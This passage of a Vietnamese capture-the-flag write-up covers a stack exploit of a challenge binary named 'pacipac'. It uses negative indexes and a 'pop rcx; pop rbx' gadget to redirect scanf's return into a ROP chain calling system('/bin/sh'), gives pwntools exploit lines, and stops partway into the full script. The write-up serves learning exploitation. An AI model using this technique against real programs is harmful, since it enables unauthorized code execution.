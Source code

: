 > ![{48EDCD74-4B96-4025-ABD5-F242D9F6C20B}](https://hackmd.io/_uploads/SkqTyLZoyg.png)
> Nên ta buộc phải lui index xuống là [-2; -1; 0] và vấn đề gặp phải là scanf return không ret trực tiếp vào vùng dữ liệu ta đã ghi.
> ![{59D2785A-EC07-4F2B-9CC2-BBEF0E52F69F}](https://hackmd.io/_uploads/S1rSlIbj1l.png)
> Vậy vấn đề cuối cùng ta giải quyết sẽ là làm sao để scanf ret vào nơi ta ghi dữ liệu và vì chỉ được nhập số nên ta sẽ nhập vào địa chỉ của một gadget thích hợp để làm điều đó.
> Sau một hồi tìm kiếm (thanks to A WAN=))) thì ta tìm được gadget để loại bỏ được 2 giá trị đó là pop rcx; pop rbx vì khi thực thi sẽ tiến hành đẩy 2 giá trị dư kia vào thanh ghi rcx và rbx và rsp lúc này sẽ trỏ trực tiếp đến lệnh mà ta đã ghi vào trước đó. Ta có script:
> ``` 
> #get_shell = p64(ret) + p64(prdi) + p64(next(libc.seacrh("/bin/sh\0"))) + p64(libc.sym.system)
> binsh = next(libc.search("/bin/sh\0"))
> # sla(b'> ',b'2')
> # sla(b'idx: ',b'-2') # #idx = (adr[idx=0] - adr[adx=n])/8
> # sla(b'Enter price: ',f'{ret}'.encode())
> 
> sla(b'> ',b'2')
> sla(b'idx: ',b'-2')
> sla(b'Enter price: ',f'{prdi}'.encode())
> 
> sla(b'> ',b'2')
> sla(b'idx: ',b'-1')
> sla(b'Enter price: ',f'{binsh}'.encode())
> 
> sla(b'> ',b'2')
> sla(b'idx: ',b'0')
> sla(b'Enter price: ',f'{libc.sym.system}'.encode())
> 
> scanf ret controlling
> sla(b'> ',b'2')
> sla(b'idx: ',b'-5')
> sla(b'Enter price: ',f'{prcx_rbx}'.encode())
> ```
- Ta tiến hành cho chạy thử script:
![{C479F687-62B1-47C4-9E6C-873406522746}](https://hackmd.io/_uploads/SySC-IbsJl.png)
- Vậy ta đã có được shell

=> **Challenge hoàn thành**

## FULLSCRIPT
```
#!/usr/bin/env python3

from pwn import *

exe = ELF('pacipac_patched', checksec=False)
libc = ELF('libc.so.6', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.p.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
r = lambda nbytes: p.recv(nbytes)
```